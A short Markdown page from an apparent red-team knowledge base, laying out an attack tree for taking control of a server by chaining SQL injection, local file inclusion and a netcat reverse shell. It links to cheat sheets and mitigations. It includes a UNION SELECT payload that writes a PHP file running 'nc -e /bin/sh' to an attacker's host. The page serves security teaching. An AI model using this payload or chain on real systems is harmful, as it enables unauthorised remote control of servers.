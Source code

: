# Get shell and control target server

## Attack tree

```text
1 Netcat installed on both systems (hacking and target machines) (AND)
    1.1 Install netcat on both systems (AND)
    1.2 Create a reverse shell (AND)
    1.3 Setup a netcat listener on the hacking machine
2 SQL injection writing payload to server (AND)
    2.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    2.2 Find the amount of columns (AND)
    2.3 Find which columns accept queries (AND)
    2.4 Build an UNION SELECT SQL segment (AND)
    2.5 Inject SQL statements into the column (AND)
    2.6 Post exploitation
3 Use file inclusion vulnerability of any website on the server to run the payload
    3.1 Connect to the listener from the target machine (AND)
    3.2 Post exploitation
```
## Example SQL segments

PHP (and nc):
```text
-1' UNION SELECT '<?passthru("nc -e /bin/sh/ <IP hacking server> <port>");?>',null into outfile '/tmp/reverse.php' /*
```

## Notes

Works only in combination with a [local file inclusion vulnerability](../application/Local-file-inclusion.md).

## Tools
* [Burp suite CE proxy](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)

## Cheatsheets
* [Weevely cheatsheet](cheatsheets:docs/application/weevely)
* [MSFvenom cheatsheet](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [Union SQLi queries](cheatsheets:docs/databases/union-select)
* [Local file inclusion](cheatsheets:docs/application/lfi)
* [Reverse shell commands](cheatsheets:docs/application/reverse-shell-commands)
* [Path Traversal Cheat Sheet: Windows](https://www.akimbocore.com/article/windows-path-traversal-cheat-sheet/)
* [Path Traversal Cheat Sheet: Linux](https://www.akimbocore.com/article/linux-path-traversal-cheat-sheet/)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterised)
* [Input validation](app-mitigations:docs/databases/Input-validation)
* [Local file inclusion](app-mitigations:docs/coding/Local-file-inclusion)
